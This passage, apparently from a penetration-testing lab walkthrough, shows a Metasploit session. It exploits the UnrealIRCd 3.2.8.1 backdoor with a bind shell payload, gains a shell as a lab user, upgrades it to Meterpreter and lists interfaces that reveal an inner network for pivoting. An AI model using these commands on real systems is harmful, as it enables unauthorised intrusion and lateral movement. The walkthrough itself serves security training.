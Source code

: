 ```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 0
payload => cmd/unix/bind_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 172.25.0.3
RHOSTS => 172.25.0.3
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LPORT 21337
LPORT => 21337
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] 172.25.0.2:6667 - Connected to 172.25.0.2:6667...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
    :irc.TestIRC.net NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 172.25.0.2:6667 - Sending backdoor command...
[*] Started bind TCP handler against 172.25.0.2:21337
[*] Command shell session 5 opened (172.25.0.3:50822 -> 172.25.0.2:21337 via session 2) at 2024-07-17 23:48:41 -0400

id
uid=1121(boba_fett) gid=100(users) groups=100(users)
```

Now we have a basic shell running as the `boba_fett`.
Same as last time, you can upgrade this shell to a Meterpreter session with `sessions -u -1`.

## Setting up a route

Running `ifconfig` on your new Meterpreter session will show that you've found another network:

```
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface 20
============
Name         : middle_net0
Hardware MAC : 02:42:ac:19:00:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.25.0.2
IPv4 Netmask : 255.255.255.0


Interface 26
============
Name         : inner_net0
Hardware MAC : 02:42:ac:1a:00:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.26.0.3
IPv4 Netmask : 255.255.255.0
```